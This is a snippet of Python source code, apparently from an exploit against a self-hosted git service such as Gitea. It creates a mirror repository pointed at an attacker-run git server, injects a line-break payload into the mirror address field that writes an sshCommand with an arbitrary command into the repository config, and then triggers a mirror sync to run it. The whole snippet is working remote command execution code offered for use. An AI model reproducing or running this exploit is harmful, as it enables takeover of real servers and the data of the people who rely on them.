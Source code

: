 ```
# Create the repository
print('Creating repository')
REPO_NAME = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
body = {
    '_csrf': urllib.parse.unquote(s.cookies.get('_csrf')),
    'uid': USER_ID,
    'repo_name': REPO_NAME,
    'clone_addr': 'http://{}:{}/{}.git'.format(HOST_ADDR, HOST_PORT, gitTemp[5:]),
    'mirror': 'on'
}
r = s.post(URL + '/repo/migrate', data=body)
if r.status_code != 200:
    print('Error creating repo')
    httpd.shutdown()
    t.join()
    sys.exit(1)
print('Repo "{}" created'.format(REPO_NAME))

# Inject command into config file
print('Injecting command into repo')
body = {
    '_csrf': urllib.parse.unquote(s.cookies.get('_csrf')),
    'mirror_address': 'ssh://example.com/x/x"""\r\n[core]\r\nsshCommand="{}"\r\na="""'.format(CMD),
    'action': 'mirror',
    'enable_prune': 'on',
    'interval': '8h0m0s'
}
r = s.post(URL + '/' + USERNAME + '/' + REPO_NAME + '/settings', data=body)
if r.status_code != 200:
    print('Error injecting command')
    httpd.shutdown()
    t.join()
    sys.exit(1)
print('Command injected')

# Trigger the command
print('Triggering command')
body = {
    '_csrf': urllib.parse.unquote(s.cookies.get('_csrf')),
    'action': 'mirror-sync'
}
r = s.post(URL + '/' + USERNAME + '/' + REPO_NAME + '/settings', data=body)
if r.status_code != 200:
    print('Error triggering command')
    httpd.shutdown()
    t.join()
    sys.exit(1)

print('Command triggered')

# Shutdown the git server
httpd.shutdown()
```
